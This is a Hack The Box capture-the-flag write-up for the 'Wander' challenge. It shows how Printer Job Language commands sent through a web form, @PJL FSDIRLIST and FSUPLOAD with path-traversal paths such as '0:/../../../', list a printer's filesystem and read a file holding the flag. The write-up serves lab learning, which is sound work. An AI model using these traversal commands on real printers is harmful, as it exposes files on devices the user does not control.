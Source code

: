 ## WriteUp for the challenge [Wander](https://app.hackthebox.com/challenges/wander)

We have the link to the webserver. Opening the web page we see that the only thing we can do is to insert input in the textbox.
It is suggested to submit `@PJL INFO ID`. 

[PJL](https://en.wikipedia.org/wiki/Printer_Job_Language) is a language that permits the communication between the computer and the printer. We can submit the default command to see if this works.

The result is the ID of the printer. This means that we can retrieve informations that we want from the device. Probably we need to find the flag in the printer, so we have to navigate inside its filesystem. Let's search a command for that in the [Wiki](https://usermanual.wiki/HP/bpl13208.787159622/html)

We find that a command is useful for listing files [FSDIRLIST](https://usermanual.wiki/HP/bpl13208.787159622/html#pfad) with examples. Let's enter 
`@PJL FSDIRLIST NAME = "0:/"`. 

We got
```@PJL FSDIRLIST NAME=0:/ ENTRY=1
. TYPE=DIR
.. TYPE=DIR
PJL TYPE=DIR
PostScript TYPE=DIR
saveDevice TYPE=DIR
webServer TYPE=DIR
```

This means we are not yet in the root of the printer. Let's try with:

`@PJL FSDIRLIST NAME = "0:/../../../"`. 

Now we can see the entire filesystem.

```
@PJL FSDIRLIST NAME=0:/../../../ ENTRY=1
. TYPE=DIR
.. TYPE=DIR
etc TYPE=DIR
conf TYPE=DIR
home TYPE=DIR
rw TYPE=DIR
tmp TYPE=DIR
csr_misc TYPE=DIR
printer TYPE=DIR 
```

We have to find interesting file. We notice that inside the **/home/defaults** there is an interesting file. For reading this we have to find another command. Thanks to the manual we notice that [FSUPLOAD](https://usermanual.wiki/HP/bpl13208.787159622/html#pfb5) is what we need. It will display the content of this file on the system.

Let's do this:

`@PJL FSUPLOAD NAME="0:/../../home/default/readyjob"`

And we got the flag.
